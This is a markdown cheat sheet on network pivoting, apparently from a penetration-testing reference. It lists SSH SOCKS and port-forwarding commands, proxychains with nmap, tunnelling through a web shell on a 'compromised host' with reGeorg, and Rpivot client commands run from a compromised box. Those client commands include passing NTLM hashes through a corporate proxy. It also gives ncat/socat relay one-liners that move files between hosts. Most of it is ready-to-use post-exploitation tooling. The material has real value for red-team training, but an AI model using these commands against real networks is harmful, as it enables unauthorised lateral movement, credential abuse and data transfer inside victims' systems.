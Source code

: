 # Network Pivoting Techniques

## SSH

### SOCKS Proxy
```
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

### Local Port Forwarding
```
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```


### Remote Port Forwarding
```
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
```

## Proxychains
**Config file**: /etc/proxychains.conf
```bash
[ProxyList]
socks4 localhost 8080
```
Set the SOCKS4 proxy then `proxychains nmap 192.168.5.6`

## Web SOCKS - reGeorg
```
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp
```

## Rpivot

Server (Attacker box)
```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)
```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy
```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash
```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```


## Basic Pivoting Types
| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| Listen - Listen   | Exposed asset, may not want to connect out. |
| Listen - Connect  | Normal redirect.                            |
| Connect - Connect | Can’t bind, so connect to bridge two hosts  |


## Listen - Listen
| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| ncat              | `ncat -v -l -p 8080 -c "ncat -v -l -p 9090"`|
| socat             | `socat -v tcp-listen:8080 tcp-listen:9090`  |
| remote host 1     | `ncat localhost 8080 < file`                |
| remote host 2     | `ncat localhost 9090 > newfile`             |


## Listen - Connect
| Type              | Use Case                                                        |
| :-------------    | :------------------------------------------                     |
| ncat              | `ncat -l -v -p 8080 -c "ncat localhost 9090"`                   |
| socat             | `socat -v tcp-listen:8080,reuseaddr tcp-connect:localhost:9090` |
| remote host 1     | `ncat localhost -p 8080 < file`                                 |
| remote host 2     | `ncat -l -p 9090 > newfile`                                     |


## Connect - Connect
| Type              | Use Case                                                                   |
| :-------------    | :------------------------------------------                                |
| ncat              | `ncat localhost 8080 -c "ncat localhost 9090"`                             |
| socat             | `socat -v tcp-connect:localhost:8080,reuseaddr tcp-connect:localhost:9090` |
| remote host 1     | `ncat -l -p 8080 < file                                                    |
| remote host 2     | `ncat -l -p 9090 > newfile`                                                |


## Thanks to
 * [Network Pivoting Techniques - Bit rot](https://bitrot.sh/cheatsheet/14-12-2017-pivoting/)
